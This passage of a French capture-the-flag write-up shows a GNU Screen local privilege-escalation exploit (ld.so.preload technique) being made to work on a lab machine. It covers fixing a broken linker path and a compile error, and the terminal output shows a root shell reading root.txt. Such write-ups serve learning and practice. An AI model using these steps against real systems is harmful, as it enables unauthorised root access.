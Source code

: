 ```bash

./screen_exploit.sh: line 42: /tmp/rootshell: No such file or directory
```

Apparemment le compilateur ne trouve pas le linker :

`collect2: fatal error: cannot find 'ld'`

En fouillant on voit qu'il y a comme un sac de noeud dû au fait que `ld` est un lien symbolique vers un chemin relatif et non absolu. J'ai réglé ça en copiant la cible du lien dans le dossier courant et en l'ajoutant à mon PATH :

```bash
www-data@fsoft:/tmp$ ls -al /usr/bin/ld
lrwxrwxrwx 1 root root 19 Mar 21  2019 /usr/bin/ld -> x86_64-linux-gnu-ld
www-data@fsoft:/tmp$ ls /usr/bin/x86_64-linux-gnu-ld
lrwxrwxrwx 1 root root 23 Mar 21  2019 /usr/bin/x86_64-linux-gnu-ld -> x86_64-linux-gnu-ld.bfd
www-data@fsoft:/tmp$ ls /usr/bin/x86_64-linux-gnu-ld.bfd 
-rwxr-xr-x 1 root root 1.8M Mar 21  2019 /usr/bin/x86_64-linux-gnu-ld.bfd
www-data@fsoft:/tmp$ cp /usr/bin/x86_64-linux-gnu-ld.bfd /tmp/
www-data@fsoft:/tmp$ export PATH=/tmp:$PATH
```

Ensuite on a une erreur de compilation car `execvp` a besoin de 2 arguments et là le code en donne 3 :

```
[+] First, we create our shell and library...
/tmp/rootshell.c: In function 'main':
/tmp/rootshell.c:9:5: error: too many arguments to function 'execvp'
     execvp("/bin/sh", NULL, NULL);
     ^~~~~~
In file included from /tmp/rootshell.c:2:
/usr/include/unistd.h:578:12: note: declared here
 extern int execvp (const char *__file, char *const __argv[])
            ^~~~~~
```

C'est étonnant que sur le précédent CTF similaire la compilation ait fonctionné. J'ai résolu le problème en replaçant `execvp` par `execvpe` qui prend effectivement l'environnement en troisième paramètre. J'ai aussi rajouté quelques `#include` histoire que les warnings disparaissent.

```bash
www-data@fsoft:/tmp$ ./screen_exploit.sh 
~ gnu/screenroot ~
[+] First, we create our shell and library...
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /run/screen/S-www-data.

# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cd /root
# ls
root.txt
# cat root.txt
You are the winner !
```

On a finalement quelque chose qui fonctionne :)

*Publié le 4 décembre 2022*
